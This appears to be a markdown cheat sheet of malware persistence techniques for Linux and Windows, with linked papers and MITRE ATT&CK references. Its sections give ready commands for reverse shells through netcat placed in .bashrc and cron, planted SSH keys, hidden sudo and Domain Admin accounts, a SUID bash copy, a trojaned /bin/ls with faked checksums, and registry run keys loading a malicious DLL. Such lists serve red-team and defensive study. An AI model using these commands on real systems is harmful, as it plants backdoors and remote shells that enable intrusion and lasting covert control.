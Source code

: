 ```yaml
---
title: Persistence techniques
description: How malwares persist in the victim host.
---
```


# Malware persistence techniques

## Linux

> [PDF - Linux Red Team Persistence Techniques](https://papers.vx-underground.org/papers/Linux/Persistence/Linux%20Red%20Team%20Persistence%20Techniques.pdf)
>
> [PDF - My Methods To Achieve Persistence In Linux Systems](https://papers.vx-underground.org/papers/Linux/Persistence/My%20Methods%20to%20Achieve%20Persistence%20in%20Linux%20Systems.pdf)
>
> [PDF - Understanding Linux Malware](https://reyammer.io/publications/2018_oakland_linuxmalware.pdf)

### SSH Key

```
echo <public_key> >> /root/.ssh/authorized_keys
echo <public_key> >> /home/<user>/.ssh/authorized_keys
```

### Add new account

```
useradd -m -s /bin/bash ftp
usermod -aG sudo ftp
passwd ftp
```

### Shell configuration backdoor

- `.bashrc` : Executed every time a user starts up a fresh terminal session in interactive mode.
- `.bash_profile` : Executed every time a user logs into a system. 

Example :

```
echo 'nc -e /bin/bash <IP> <PORT> 2>/dev/null &' >> ~/.bashrc
```

### Exposed services backdoor

- webshell

### Cronjobs

```
$ crontab -e
* * * * * nc <IP> <PORT> -e /bin/sh
```

```
/etc/cron.hourly/
/etc/crontab
/etc/cron.daily/
```

### Local privesc

```
cp /bin/bash /bin/sys
chmod u+s /bin/sys
/bin/sys -p
```

### System services / boot scripts

**systemd**

```
[Service]
Type=simple
ExecStartPre=<PAYLOAD>
...
```

**rc script**

```
/etc/rc.d/rc.local
/etc/rc.conf
/etc/init.d/
/etc/rcX.d/
/etc/rc.local
```

### X desktop autostart

- `~/.config/autostart`

### File replacement / infection

`ls` backdoor :

```
$ mv /bin/ls /bin/ls2
$ cat ls
#!/bin/bash

PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/sbin

<BACKDOOR>
/bin/ls2 "$@"
$ chmod a+x ./ls
$ mv ./ls /bin/ls
```

`md5sum`, `sha256sum`, `*sum` backdoor that returns good hashes for backdoored binaries.

```
$ md5sum /bin/ls
b9dcdfcaea8082f5f5879086fdf7f2e2  /bin/ls
$ sha256sum /bin/ls
f48db5b77c6fddb35548fb86c6e279e5d18c55d2d4ff9adae66a2d582187e7c7  /bin/ls
```

## Windows

> [MITRE ATT&CK - Persistence](https://attack.mitre.org/tactics/TA0003/)

### Scheduled Task

```
at 12:00 cmd /c <PAYLOAD>
```

### Startup folder

Placing a program within a startup folder will also cause that program to execute when a user logs in.

- Current user : `C:\Users\[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- All users : `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

### Registry keys

Adding an entry to the "run keys" in the Registry will cause the program referenced to be executed when a user logs in.

Registry run key entries can reference programs directly or list them as a dependency.

For example, it is possible to load a DLL at logon using a "Depend" key with RunOnceEx: `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\temp\evil[.]dll"`

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce

KEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx
```

The following Registry keys can be used to set startup folder items for persistence:

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

The following Registry keys can control automatic startup of services during boot:

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
```

Programs listed in the load value of the registry key `HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows` run when any user logs on.

### Shortcut Modification

Create a new malicious shortcut that look like a legitimate program.

### Screensaver

- https://pentestlab.blog/2019/10/09/persistence-screensaver/

### PowerShell Profile

A profile is a Windows PowerShell ISE script that runs automatically when you start a new session.

Six different profiles :

- Current User, Current Host – console : `$Home\[My ]Documents\WindowsPowerShell\Profile.ps1`
- Current User, All Hosts : `$Home\[My ]Documents\Profile.ps1`
- All Users, Current Host – console : `$PsHome\Microsoft.PowerShell_profile.ps1`
- All Users, All Hosts : `$PsHome\Profile.ps1`
- Current user, Current Host – ISE : `$Home\[My ]Documents\WindowsPowerShell\Microsoft.P owerShellISE_profile.ps1`
- All users, Current Host – ISE : `$PsHome\Microsoft.PowerShellISE_profile.ps1`

### DLL Hijacking

### Service Hijacking

### Create account

Local account :

```cmd
net user /add <account_name> <account_password>
net user /delete <account_name>
```

Domain account :

```cmd
net user /add <account_name> <account_password> /domain
net group "Domain Admins" <account_name> /add /domain
```

### Software compoent

- Webshell
- SQL stored procedures
- ...
